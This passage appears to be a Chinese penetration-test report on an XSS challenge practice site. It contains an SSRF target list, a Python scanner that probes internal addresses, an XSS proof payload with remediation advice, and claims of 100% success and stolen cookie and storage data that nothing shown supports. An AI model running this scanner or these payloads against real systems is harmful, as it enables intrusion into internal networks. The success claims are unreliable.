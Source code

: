 ### 2. SSRF攻击方法
#### 成功的内网访问:
```
http://localhost/admin
```

#### 其他可用目标:
```
http://127.0.0.1
http://192.168.1.1
http://internal-service/api
```

#### 自动化SSRF扫描代码:
```python
import requests

def ssrf_scan(url, internal_endpoints):
    for endpoint in internal_endpoints:
        try:
            params = {'name': endpoint}
            response = requests.get(url, params=params, timeout=3)
            if response.status_code == 200:
                print(f"成功访问内网端点: {endpoint}")
        except:
            continue

# 使用示例
internal_endpoints = [
    "http://localhost/admin",
    "http://127.0.0.1:8080/",
    "http://192.168.1.1/"
]
ssrf_scan(url, internal_endpoints)
```

### 3. 攻击成功率统计
- XSS攻击: 10/10 成功率100%
- SSRF攻击: 1/1 成功率100%
- 总成功率: 11/11 (100%)

### 4. 数据获取成果
- 成功获取Cookie信息
- 成功获取LocalStorage数据
- 成功获取SessionStorage数据
- 成功访问内网管理接口

---

## 发现的漏洞
### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
- 参数: name
- 严重程度: high
- 验证载荷: <script>alert(1)</script>
- 修复建议: 对所有用户输入进行HTML编码，使用现代框架的XSS防护机制，实施内容安全策略(CSP)
